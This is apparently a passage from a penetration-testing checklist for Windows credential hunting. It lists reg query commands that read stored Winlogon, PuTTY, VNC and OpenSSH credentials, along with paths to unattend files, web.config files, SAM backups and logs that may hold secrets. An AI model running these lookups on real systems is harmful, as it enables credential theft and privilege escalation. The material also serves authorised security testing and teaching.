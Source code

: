 	# Windows Autologin
	reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"
	reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul | findstr "DefaultUserName DefaultDomainName DefaultPassword" 
	 
	 # SNMP parameters
	reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP"
	
	# Putty credentials
	reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"
	reg query HKCU\Software\SimonTatham\PuTTY\SshHostKeys\
	
	# VNC credentials
	reg query "HKCU\Software\ORL\WinVNC3\Password"
	reg query "HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\WinVNC4" /v password
	
	## OpenSSH credentials
	reg query HKEY_CURRENT_USER\Software\OpenSSH\Agent\Keys
	```
- [ ] Creds from Unattend or Sysprep Files
	 ```powershell
	 c:\sysprep.inf
	 c:\sysprep\sysprep.xml
	 %WINDIR%\Panther\Unattend\Unattend*.xml
	 %WINDIR%\Panther\Unattend*.xml
	 ```
- [ ] Creds from Log Files
	```powershell
	dir /s /b /p *access*.log* == *.log
	```
- [ ] Creds from IIS web config
	```powershell
	Get-Childitem –Path C:\inetpub\ -Include web.config -File -Recurse -ErrorAction SilentlyContinue
	Get-Childitem –Path C:\xampp\ -Include web.config -File -Recurse -ErrorAction SilentlyContinue
		
	C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config
	C:\inetpub\wwwroot\web.config
	```
- [ ] Check other possible interesting files
	```powershell
	dir c:*vnc.ini /s /b
	dir c:*ultravnc.ini /s /b
	%SYSTEMDRIVE%\pagefile.sys
	%WINDIR%\debug\NetSetup.log
	%WINDIR%\repair\sam
	%WINDIR%\repair\system
	%WINDIR%\repair\software, %WINDIR%\repair\security
	%WINDIR%\iis6.log
	%WINDIR%\system32\config\AppEvent.Evt
	%WINDIR%\system32\config\SecEvent.Evt
	%WINDIR%\system32\config\default.sav
	%WINDIR%\system32\config\security.sav
	%WINDIR%\system32\config\software.sav
	%WINDIR%\system32\config\system.sav
	%WINDIR%\system32\CCM\logs\*.log
	%USERPROFILE%\ntuser.dat
	%USERPROFILE%\LocalS~1\Tempor~1\Content.IE5\index.dat
	%WINDIR%\System32\drivers\etc\hosts